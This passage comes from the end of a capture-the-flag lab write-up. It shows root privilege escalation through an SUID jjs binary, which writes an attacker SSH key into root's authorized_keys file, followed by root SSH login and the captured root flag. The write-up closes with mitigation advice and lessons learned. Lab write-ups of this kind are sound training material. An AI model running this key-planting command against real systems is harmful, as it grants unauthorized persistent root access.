 <img width="809" height="348" alt="image" src="https://github.com/user-attachments/assets/082bf88b-1809-493e-b849-a77dcde0a8f4" />


```javascript
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw = new FileWriter("/root/.ssh/authorized_keys");
fw.write("ssh-rsa AAAAB3NzaC1yc2E...");
fw.close();' | jjs
```

<img width="674" height="183" alt="image" src="https://github.com/user-attachments/assets/ae5da719-13cd-41bf-adec-acb9fa1d9789" />


#### Root Access via SSH
```bash
ssh -i private_key root@10.129.229.185
```

### Root Flag
```bash
cat /root/root.txt
```
**Root Flag**: `679984d14402f6b0e0dccf1c1fe7b9ab`

<img width="798" height="508" alt="image" src="https://github.com/user-attachments/assets/c3862faa-41ee-4821-bed1-c57d43a26e99" />

---

## 🛡️ Mitigation Strategies

1. **NoSQL Injection Prevention**
   - Implement input validation and sanitization
   - Use parameterized queries
   - Apply proper authentication mechanisms

2. **Privilege Management**
   - Remove unnecessary SUID binaries
   - Implement principle of least privilege
   - Regular security audits of system permissions

3. **Network Security**
   - Restrict SSH key-based authentication
   - Implement network segmentation
   - Regular vulnerability assessments

---

## 📚 Lessons Learned

- **NoSQL databases** are not immune to injection attacks
- **Credential brute-forcing** through regex-based injection is effective
- **SUID binaries** present significant privilege escalation risks
- **JavaScript engines** with elevated privileges can be dangerous

---